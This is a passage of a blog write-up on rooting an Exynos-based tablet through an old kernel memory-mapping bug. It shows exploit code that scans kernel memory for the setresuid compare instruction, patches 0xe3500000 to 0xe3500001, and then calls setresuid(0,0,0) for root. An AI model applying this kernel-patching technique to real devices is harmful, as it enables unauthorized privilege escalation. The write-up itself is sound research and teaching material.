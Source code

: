 ```c

	retval = security_task_fix_setuid(new, old, LSM_SETID_RES);
	if (retval < 0)
		goto error;

	return commit_creds(new);

error:
	abort_creds(new);
	return retval;
}
```

The `nsown_capable` call is where our call as an unprivileged user will fail. So
if I modify the check I'll be able to set my own process id.


{% include aligner.html images="/roots-in-the-past/setresuid.png" width=55 %}

In the available exploit the compare is modified as `cmp r0, 1`. In raw bytes
it is changed from `0xe3500000` to `0xe3500001`.

```c
if (found) {
    tmp = paddr + kern_offset;
    tmp += (addr_sym - PAGE_OFFSET) >> 2;
    for(m = 0; m < 128; m += 4) {
        if (*(unsigned long *)tmp == 0xe3500000) {
            printf("[*] patching sys_setresuid at 0x%08X\n",addr_sym+m);
            restore_ptr_setresuid = tmp;
            *(unsigned long *)tmp = 0xe3500001;
            break;
        }
        tmp++;
    }
    break;
}
```

After the patch, it's only a matter of a `setresuid` call:

```c
/* ask for root */
info("asking for root...");
result = setresuid(0, 0, 0);

if (result) {
    printf("[!] set user root failed: %s\n", strerror(errno));
    exit(1);
}
```

{% include aligner.html images="/roots-in-the-past/root.png" width=100 %}

## the root


[github]: https://github.com/erfur/gm-etab4-root
[1]: https://web.archive.org/web/20221128194111/https://forum.xda-developers.com/t/root-security-root-exploit-on-exynos.2048511/
[CMA]: https://developer.toradex.com/linux-bsp/how-to/linux-features/contiguous-memory-allocator-cma-linux/
[2]: http://blog.azimuthsecurity.com/2013/02/re-visiting-exynos-memory-mapping-bug.html
[4]: https://elixir.bootlin.com/linux/v3.0.40/source/lib/vsprintf.c#L848